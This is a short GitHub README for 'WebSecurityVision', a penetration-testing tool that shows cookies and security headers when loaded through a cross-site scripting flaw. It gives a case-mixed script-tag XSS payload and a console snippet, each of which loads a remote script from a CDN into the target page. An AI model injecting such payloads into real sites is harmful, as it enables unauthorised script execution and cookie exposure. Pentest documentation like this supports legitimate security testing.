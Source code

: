 # WebSecurityVision

WebSecurityVision is a tool for checking XSS vulnerability in the Pentest process, by calling it on the page, if the site has XSS vulnerability and the security headers are not set correctly, the browser information, including cookies and headers related to the cyber security space shows.

<p align="center">
    <img alt="BetterCap" src="https://github.com/TheWation/WebSecurityVision/blob/master/github/screenshot.png?raw=true" height="300" />
</p>

## Usage

To use, enter the following code through the vulnerable section or enter the page through the Developer Console section.

Vulnerable Input:

```javascript
<ScRiPT SRC=https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js></ScRiPT>
```

Inspect Element:

```javascript
var script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js';
document.head.appendChild(script);
```

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.